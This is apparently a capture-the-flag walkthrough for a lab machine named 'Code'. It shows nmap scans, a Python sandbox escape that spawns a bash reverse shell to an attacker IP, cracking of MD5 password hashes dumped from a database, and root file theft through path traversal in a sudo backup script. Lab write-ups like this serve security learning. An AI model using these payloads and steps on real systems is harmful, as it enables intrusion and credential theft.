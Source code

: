 # 💻 Code 

## 📝 Overview

The machine involves escaping a restricted Python environment, **Python sandbox escape** , retrieving user credentials from a database, 
gaining SSH access, and bypassing a backup script to escalate privileges.

## 🔍 Enumeration

Nmap:
```sh
nmap -T3 10.10.11.62
nmap -sV -sC -p 22,5000 10.10.11.62
```
Access the web service in the browser:
```sh
http://10.10.11.62:5000
```

## 🐍 Exploitation: Python Sandbox Escape

List all subclasses to find Popen:
```py
print([x.__name__ for x in (0).__class__.__base__.__subclasses__()])
print((lambda:0).__class__.__base__.__subclasses__())

# find index of popen : 317
subs = (()).__class__.__bases__[0].__subclasses__()
for i, cls in enumerate(subs):
    name = cls.__name__.lower()
    if len(name) == 5 and name[0] == 'p':
        raise Exception(f"Classe trouvée: {cls.__name__} à l'index {i}")
```
Spawn reverse shell:
```py
out, err = (().__class__.__bases__[0].__subclasses__()[317])(
    ['bash', '-c', 'bash -i >& /dev/tcp/10.10.14.98/4444 0>&1'],
    stdout=-1,
    stderr=-1
).communicate()
print(out.decode())
```

## 🧑‍💻 User Enumeration
Upgrade shell:
```sh
python3 -c 'import pty; pty.spawn("/bin/bash")'
# starting exploration
id
groups
```
Find writable files:
```sh
find / -writable -type f 2>/dev/null | grep -Ev '^/proc|^/sys'
```
## 🔑 Extracting Passwords

Extracted hashes from the database:
```sh
cd instance
sqlite3 database.db
. tables
select * from user;
#1|development|759b74ce43947f5f4c91aeddc3e5bad3
#2|martin|3de6f30c4a09c27fc71932bfc68474be
```
Crack hashes with John:
```sh
john --format=Raw-MD5 --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
# development      (development)     
# nafeelswordsmaster (martin) 
```

## 🖥️ SSH Access

Connect to ssh:
```sh
ssh martin@10.10.11.62 
```
Explore system:
```sh
whoami
groups
sudo -l
```

## 🧗 Privilege Escalation via script

backy.sh takes a JSON config to back up directories but restricts paths to /home/ and /var/.
We can bypass this filter using directory traversal:
```sh
cat > root-steal.json << EOF
{
  "destination": "/home/martin/",
  "multiprocessing": true,
  "verbose_log": true,
  "directories_to_archive": [
    "/home/....//root/"
  ]
}
EOF
```
Run backup:
```sh
sudo /usr/bin/backy.sh root-steal.json
```
extract the backup:
```sh
tar -xvf <filename>
```
You now have access to root files and can escalate privileges.